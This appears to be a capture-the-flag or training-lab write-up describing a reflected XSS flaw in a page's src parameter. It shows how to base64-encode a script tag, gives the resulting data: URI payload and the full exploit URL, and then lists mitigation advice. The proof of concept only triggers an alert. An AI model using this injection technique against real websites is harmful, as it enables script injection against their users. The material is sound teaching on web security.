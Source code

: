 # Vulnerability

The idea behind is to change the src parameter so that we can run a JS script inside the page

On the Home page click on the NSA icon that should redirect you to this URL:
http://<IP>/?page=media&src=nsa

Encode in base64 a simple JS script:
```
echo -e "<script>alert('42')</script>" | base64 -> PHNjcmlwdD5hbGVydCgnNDInKTwvc2NyaXB0Pgo=
```

Now we just need to put the data uri `header` and our `payload` on the `src` parameter, the final URL will looks like this:
http://<IP>/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnNDInKTwvc2NyaXB0Pgo=
                                ^                                   ^
                                |                                   |
                              Header                          Actual Payload

# Protection

- Sanitize data input in an HTTP request before reflecting it back, ensuring all data is validated, filtered or escaped before echoing anything back to the user, such as the values of query parameters during searches.
- Convert special characters such as ?, &, /, <, > and spaces to their respective HTML or URL encoded equivalents.
- Give users the option to disable client-side scripts.
- Redirect invalid requests.

# Source

https://snyk.io/vuln/npm:markdown-it:20160912

